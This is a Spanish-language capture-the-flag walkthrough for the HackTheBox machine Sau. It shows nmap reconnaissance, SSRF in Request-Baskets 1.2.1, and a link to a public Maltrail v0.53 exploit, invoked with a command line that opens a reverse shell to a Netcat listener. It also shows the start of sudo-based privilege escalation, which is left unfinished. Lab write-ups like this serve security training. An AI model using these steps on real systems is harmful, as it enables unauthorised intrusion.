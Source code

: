 # HackTheBox Sau Walkthrough

Este documento proporciona un walkthrough detallado para comprometer la máquina Sau en HackTheBox, destacando las técnicas y herramientas clave empleadas en cada etapa.

## Tabla de Contenidos

- [Introducción](#introducción)
- [Reconocimiento](#reconocimiento)
- [Explotación](#explotación)
  - [Explotación de SSRF en Request-Baskets](#explotación-de-ssrf-en-request-baskets)
  - [Explotando Maltrail](#explotando-maltrail)
- [Post-Explotación](#post-explotación)
- [Conclusión](#conclusión)

## Introducción

El propósito de este walkthrough es documentar el proceso seguido para comprometer la máquina Sau, enfocándose en superar varios desafíos de seguridad para obtener acceso como usuario y, finalmente, acceso total.

## Reconocimiento

El reconocimiento es el primer paso crítico en cualquier prueba de penetración. Utilicé `nmap` para identificar los puertos abiertos y los servicios en ejecución en la máquina objetivo:

nmap -sC -sV -oN nmap_initial <IP de la máquina>

Los resultados revelaron los siguientes puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP (No respondía)
- **55555/tcp** - HTTP (Accesible)

![Nmap](/img/Nmap.PNG)

El intento de acceso al servidor HTTP en el puerto 80 no cargó, pero el puerto 55555 reveló una aplicación web llamada **Request-baskets**.

![VentanaPrincipal](/img/Request-baskets.PNG)

## Explotación

### Explotación de SSRF en Request-Baskets

**Request-Baskets** es una herramienta para crear puntos finales temporales para inspeccionar solicitudes HTTP. La versión 1.2.1, que estaba en uso, es vulnerable a SSRF (Server Side Request Forgery). Aproveché esta vulnerabilidad para acceder a servicios internos, en particular, al servicio en el puerto 80.

![SSRF](/img/SSRF.PNG)

### Explotando Maltrail

El servicio interno redirigido resultó ser **Maltrail**, una aplicación web de monitoreo de tráfico malicioso. 

![Maltrail](/img/Maltrail.PNG)

Una búsqueda en Google reveló una vulnerabilidad en la versión específica en uso, permitiéndome ejecutar un reverse shell a través de un exploit disponible públicamente: https://github.com/spookier/Maltrail-v0.53-Exploit

python3 exploit.py [IP de escucha] [Puerto de escucha] [URL objetivo]

Utilicé Netcat para escuchar conexiones entrantes en el puerto especificado, lo que me permitió obtener acceso al sistema como el usuario **puma**.


## Post-Explotación

Dentro del directorio home del usuario **puma**, encontré el archivo `user.txt`, que contenía la flag de usuario.

![Usuario](/img/Usuario.PNG)

Ahora es el turno de escalar privilegios, la cual desde mi punto de vista es la parte más complicada.

Comienzo ejecutando el comando sudo -l, y observo que el usuario puma tiene permisos para ejecutar un servicio de systemctl como root.

![Sudoers](/img/sudol.PNG)

Teniendo en cuenta esto, compruebo cual es la version del servicio systemctl con el comando:

systemctl --version




## Conclusión

Este documento detalla el proceso seguido para comprometer la máquina Sau en HackTheBox, desde el reconocimiento inicial hasta la post-explotación. Este ejercicio subraya la importancia de la actualización de software y la configuración adecuada de seguridad para prevenir vulnerabilidades.


